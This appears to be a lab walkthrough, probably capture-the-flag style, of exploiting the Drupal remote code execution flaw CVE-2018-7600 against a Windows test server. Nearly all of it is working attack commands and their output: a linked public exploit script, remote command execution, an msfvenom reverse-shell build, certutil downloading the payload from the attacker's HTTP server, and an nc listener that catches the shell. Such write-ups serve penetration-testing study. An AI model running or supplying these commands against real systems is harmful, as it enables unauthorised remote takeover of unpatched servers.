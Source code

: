 # CVE Description
Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1 allows remote attackers to **execute arbitrary code** because of an issue affecting multiple subsystems with default or common module configurations.

# Payload
https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py

# Step to replicate
## Prepare the payload
Download the payload or click Raw -> Ctrl A + Ctrl C -> gedit drupal.py -> Ctrl + V  
Put drupal.py into /root/transfer/  

## Install required modules
*pip install requests*  
*pip install bs4*

## Test payload
Assumptions:  
Drupal server: http://10.129.170.253  
Attack Box: 1.2.3.4
      
*python3 drupal.py http://10.129.170.253 -c "whoami"*  
[*] Triggering exploit to execute:    
whoami                                                                            
nt authority\iusr                                          

OK so we know the payload works

## Exploitation steps
### Get system info
*python3 drupal.py http://10.129.170.253 -c 'systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"'*

OS Name:                   Microsoft Windows Server 2008 R2 Datacenter  
OS Version:                6.1.7600 N/A Build 7600  
System Type:               x64-based PC

So we know it is x64 system

### Generate reverse shell payload
Go to /root/transfer  
*msfvenom -p windows/x64/shell_reverse_tcp LHOST=1.2.3.4 LPORT=443 -f exe > shell.exe*  

### Deliver the reverse shell payload to Drupal server

*python3 -m http.server 80*                                                          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

*python3 drupal.py http://10.129.170.253 -c 'mkdir c:\temp'*  

*python3 drupal.py http://10.129.170.253 -c 'certutil.exe -urlcache -f http://1.2.3.4/shell.exe c:\temp\shell.exe'*

Open a new Terminal  
*nc - nvlp 443*  

*python3 drupal.py http://10.129.170.253 -c 'c:\temp\shell.exe'*  

Back to the nc screen -> you should see a shell  
*C:\inetpub\drupal-7.54>whoami           
whoami                               
nt authority\iusr*